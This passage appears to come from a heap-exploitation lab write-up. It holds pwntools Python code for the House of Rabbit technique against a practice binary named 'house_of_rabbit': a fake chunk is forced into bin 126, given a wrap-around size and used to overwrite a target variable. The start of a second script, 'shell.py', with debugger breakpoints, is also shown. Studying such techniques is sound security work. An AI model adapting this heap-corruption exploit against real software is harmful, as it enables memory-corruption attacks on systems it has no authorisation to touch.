 ```python=
# Trigger malloc_consolidate() to move the fake chunk from the fastbins into the unsortedbin.
# Use a consolidation with the top chunk to achieve this.
consolidate = malloc(0x88, b"C"*8)
free(consolidate)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"D"*8)

# Increase the fake chunk size so that it can wrap around the VA space to reach the target data.
amend_age(0xfffffffffffffff1)


# =-=-=- OVERWRITE TARGET DATA -=-=-=

# Request a large chunk to bridge the gap between the fake chunk and the target.
distance = delta(elf.sym.user, elf.sym.target - 0x20)
malloc(distance, b"E"*8)

# The next request is serviced by the fake chunk's remainder and the first qword of user data overlaps the target data.
malloc(24, b"Much win\0")

# Check that the target data was overwritten.
io.sendthen(b"target: ", b"4")
target_data = io.recvuntil(b"\n", True)
assert target_data == b"Much win"
io.recvuntil(b"> ")

# =============================================================================

io.interactive()
```


### shell.py


```python=
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_rabbit', checksec=False)

#libc = ELF('', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+359

b *main+593
b *main+660

b *main+755

```